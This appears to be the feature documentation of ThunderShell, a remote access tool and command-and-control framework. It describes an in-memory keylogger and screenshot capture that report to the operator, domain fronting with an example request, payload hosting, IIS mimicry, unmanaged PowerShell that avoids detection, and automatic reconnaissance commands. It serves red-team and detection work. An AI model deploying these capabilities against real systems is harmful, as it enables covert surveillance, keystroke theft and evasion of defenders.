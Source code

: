 ### Advantage Against Detection

The "core" RAT does not require a second stage to be injected and loaded into memory.

### Delivery Of Arbitrary Files

Everything that is placed in the `download` folder can be downloaded from the web server. For example, 
`/opt/ThunderShell/download/evil.exe` will be available at: `http://192.168.1.5:8080/evil.exe`

### Domain Fronting

When the `domain-fronting` variable is set to `on`, the following `domain-fronting-host` value will be set to the host value you choose, which should point to your C2 infrastructure. In this case, `callback-url` should point to the website you are using for your domain fronting.

For example, if `domain-fronting-host` is set to `myevildomain.com` and `callback-url` is set to `https://google.com`,
this will generate the following request to `https://google.com`:

```
GET /w4l3Mx8aW0 HTTP/1.1
Host: myevildomain.com
...
```

### Key Logger

The RAT contains an integrated keylogger that stores all input in memory and sends the data to your C2 server.

### Logging

ThunderShell provides typical web traffic and error logs. Chat and commands for every active session are saved for future reference in the `logs` folder. Note, this folder with not be created until there is an active session. It contains shell output, keylogger feeds and screenshots sorted by date.

### Multithreading

The client supports multithreading. This allows you can execute several commands in parallel on the target. 

### Multi Users Interface

ThunderShell supports multiple users at a time on both the CLI and web server.

### Screenshot Capability

This feature supports both single and multi-screen systems.

### Splash Page Configuration

You can customize the "error page" that is returned for each GET request by specifying your HTML template with the 
`http-default-404` variable in `default.json`. The file should be placed in the `html` folder. Any  dependencies such as images should be placed in the `download` folder. By default, ThunderShell mimics an IIS server and returns the default IIS server page.

### Unmanaged PowerShell

The client is using a C# unmanaged approach to execute PowerShell code. This allows the user to execute arbitrary PowerShell commands directly on the shell, without invoking `powershell.exe`.
***

### Network Traffic Formatting

(Under development) ThunderShell allows you to configure the network request performed by the client by setting arbitrary headers and changing the format of the data sent to the server.

Default profile configuration file `profile.json`:

```
{
        "headers": {
                                "X-Powered-By": "ASP.NET",
                                "X-AspNet-Version": "4.0.30319",
                                "Set-Cookie": "ASP.NET_SessionId={{random}}[32];"
                },
        "domain-fronting": "off",
        "domain-fronting-host": "google.ca",
        "autocommands": ["ipconfig", "route -nr", "netstat -ano", "ps"],
        "auto-interact": "on"
}
```

The `{{random}}[size]` syntax can be used to set arbitrary values at runtime.
